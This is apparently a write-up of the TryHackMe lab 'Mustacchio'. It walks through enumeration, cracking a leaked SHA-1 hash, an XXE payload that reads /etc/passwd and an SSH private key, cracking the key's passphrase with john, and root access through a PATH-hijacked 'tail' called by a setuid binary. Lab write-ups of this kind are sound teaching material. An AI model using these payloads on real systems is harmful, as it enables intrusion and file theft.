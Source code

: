 ```yaml
---
title: "Mustacchio"
date: 2025-01-22
image: /assets/img/tryhackme/Mustacchio/Mustacchio_image.jpg
description: Writeup of the TryHackMe-CTF Mustacchio
categories: [Tryhackme, Easy]
tags: [linux, enumeration, revshell, web, privesc, xxe]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Mustacchio</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Easy boot2root Machine</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/mustacchio">https://tryhackme.com/r/room/mustacchio</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Mustacchio.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.114.250
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 05:42 EST
Nmap scan report for 10.10.114.250
Host is up (0.037s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8765/tcp open  ultraseek-http

Nmap done: 1 IP address (1 host up) scanned in 118.78 seconds
```
and enumerated the services nmap found in more depth using the `-A` flag:
```bash
$ nmap -A -p 22,80,8765 10.10.114.250
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 05:45 EST
Nmap scan report for 10.10.114.250
Host is up (0.036s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Mustacchio | Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.56 seconds
```
from here I analyzed the services one after another.

## HTTP Analysis
As we can see in the nmap output there is a robots.txt file, but didn't reveal anything useful. Therfore I started a `gobuster` directory enumeration:
```bash
$ gobuster dir --url http://10.10.114.250/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,bak,txt,sh
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.114.250/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,bak,txt,sh
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 1752]
/images               (Status: 301) [Size: 315] [--> http://10.10.114.250/images/]
/contact.html         (Status: 200) [Size: 1450]
/about.html           (Status: 200) [Size: 3152]
/blog.html            (Status: 200) [Size: 3172]
/gallery.html         (Status: 200) [Size: 1950]
/custom               (Status: 301) [Size: 315] [--> http://10.10.114.250/custom/]
/robots.txt           (Status: 200) [Size: 28]
/fonts                (Status: 301) [Size: 314] [--> http://10.10.114.250/fonts/]
```
While gobuster was running I performed some manual enumeration but didn't found anything interesting. Therefore I waited for the scan and started analyzing the results.
### /custom directory

The directoy had file browsing available so I found the file `/custom/js/user.bak`. I downloaded it and see what we get from it:
```bash
$ file user.bak
users.bak: SQLite 3.x database, last written using SQLite version 3034001, file counter 2, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 2
```
With `SQLiteBrowser` I was able to check the entries in the database. I found just one table called `users` with one entry. The entry provided the username admin and a hash value. I tried to get more information about this hash value:
```bash
$ hashid 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
Analyzing '1868e36a6d2b17d4c2745f1659433a54d4bc5f4b'
[+] SHA-1
[+] Double SHA-1
[+] RIPEMD-160
[+] Haval-160
[+] Tiger-160
[+] HAS-160
[+] LinkedIn
[+] Skein-256(160)
[+] Skein-512(160)
```
SHA1 hashes can be found in the <a href="https://crackstation.net/">CrackStation</a> database, so I gave it try: 
![CrackStaion result](/assets/img/tryhackme/Mustacchio/thm_mustacchio_1.jpg){: width="1014" height="86" .w-75 .normal}

The other directories didn't provide anything useful so I moved on.

## Port 8765 Analysis
The server provided another website with a login form under port 8765. 
![Admin Login](/assets/img/tryhackme/Mustacchio/thm_mustacchio_2.jpg){: width="332" height="350" .w-75 .normal}

I tried the credentials for the user admin I got in the previous step and was able to login. Always start with source code analysis, which reveal me the following comment:
```html
<!-- Barry, you can now SSH in using your key!-->
```

The website had a textfeld and a headline which said `"Add a comment on the website."`. After some tests I got the following error message:
![XML Comment Textfield](/assets/img/tryhackme/Mustacchio/thm_mustacchio_3.jpg){: width="581" height="493" .w-75 .normal}

XML always sounds like XXE so I tried the following payload...
```text
<!DOCTYPE people[
   <!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
   <name>&thmFile;</name>
   <author></author>
   <comment>glitch@wareville.com</comment>
</people>
```
... and had success:
![XML Comment Textfield](/assets/img/tryhackme/Mustacchio/thm_mustacchio_4.jpg){: width="2578" height="787" .w-75 .normal}

With the comment about Barry's ssh key could be found somewhere I tried to look for it:
![XML Comment Textfield](/assets/img/tryhackme/Mustacchio/thm_mustacchio_5.jpg){: width="2578" height="787" .w-75 .normal}

That must be Barry's ssh key so I downloaded it and prepared it to use it. First extract the hash using `ssh2john` to crack the password we need for the connection:
```bash
$ ssh2john id_rsa > hashes
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[removed]       (id_rsa)
1g 0:00:00:00 DONE (2025-01-22 05:58) 2.127g/s 6320Kp/s 6320Kc/s 6320KC/s urieljr.k..urielandrea
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Now where I had the password I was able to connect via ssh and read the user flag:

```bash
$ chmod 600 id_rsa
$ ssh -i id_rsa barry@10.10.114.250
barry@mustacchio:~$ hostname
mustacchio
barry@mustacchio:~$ cat user.txt
[*** removed ***]
```
## Privilege Esclation
While searching a way to escalate my privileges I found an intersting binary:
```bash
barry@mustacchio:/home/joe$ ls
live_log
barry@mustacchio:/home/joe$ file live_log
live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6c03a68094c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped
```

The file `live_log` just prints out the current webserver `access.log`. With the commandline utility `strings` I was able to get more insights:
```bash
barry@mustacchio:/home/joe$ strings live_log
[*** removed for readability ***]
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
[*** removed for readability ***]
```
Intersting is that `tail` didn't use an absolute path what we can missuse. I created a file called `tail` in barrys home directory (`/home/barry`) and inserted the following code:
```python
!/usr/bin/python3
import pty
pty.spawn("/bin/bash")
```
Making the new `tail` an executable, modify our path variable and finally execute the `live_log` gave me root access: 

```bash
barry@mustacchio:~$ chmod +x tail
barry@mustacchio:~$ export PATH=$PWD:$PATH
barry@mustacchio:~$ ../joe/live_log
root@mustacchio:~# whoami
root
root@mustacchio:~# cd /root
root@mustacchio:/root# cat root.txt
[*** removed ***]
```

solved! :)
